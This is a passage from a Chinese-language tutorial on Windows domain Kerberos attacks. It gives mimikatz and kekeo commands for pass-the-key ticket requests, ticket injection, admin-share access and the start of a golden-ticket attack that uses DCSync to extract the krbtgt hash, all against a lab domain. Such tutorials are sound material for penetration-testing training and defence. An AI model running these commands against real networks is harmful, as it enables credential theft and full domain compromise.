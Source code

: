    ```
   klist
   ```

7. 漏洞利用

   ```
   dir \\192.168.3.21\c$
   ```

也可以使用[kekeo](https://github.com/gentilkiwi/kekeo)工具进行攻击

攻击流程（与上面流程相似，从上面的第4步开始）：

1. 生成票据

   ```
   .\kekeo "tgt::ask /user:mary /domain:god.org /ntlm:518b98ad4178a53695dc997aa02d455c"
   ```

2. 导入票据

   ```
   kerberos::ptt TGT_Administrator@GOD.ORG_krbtgt~god.org@GOD.ORG.kirbi
   ```

3. 漏洞利用

   ```
   dir \\192.168.3.21\c$
   ```



##### 黄金票据

在 `Kerberos` 认证中，`Client` 通过 `AS`(身份认证服务)认证后，`AS` 会给 `Client` 一个`Logon Session Key` 和 `TG`。

 `Logon Session Key` 并不会保存在 `KDC` 中，`krbtgt` 的`NTLM Hash` 又是固定的。

所以只要得到 `krbtgt` 的 `NTLM Hash`，就可以伪造 `TGT` 和`Logon Session Key` 来进入下一步 `Client` 与 `TGS` 的交互。

而已有了金票后,就跳过`AS` 验证,不用验证账户和密码,所以也不担心域管密码修改。

**特点：**不需要与 `AS` 进行交互，需要用户 `krbtgt` 的 `Hash`。

**攻击条件：**

- `krbtgt`用户的`hash`(就意味着你已经有域控制器权限了)
- 域名称
- 域的`SID`值
- 要伪造的用户名

**攻击流程：**

1. 启动`mimikatz`并提权

   ```
   privilege::debug
   ```

2. 读取域与域用户信息

   ```
   lsadump::dcsync /domain:god.org /user:krbtgt
   ```
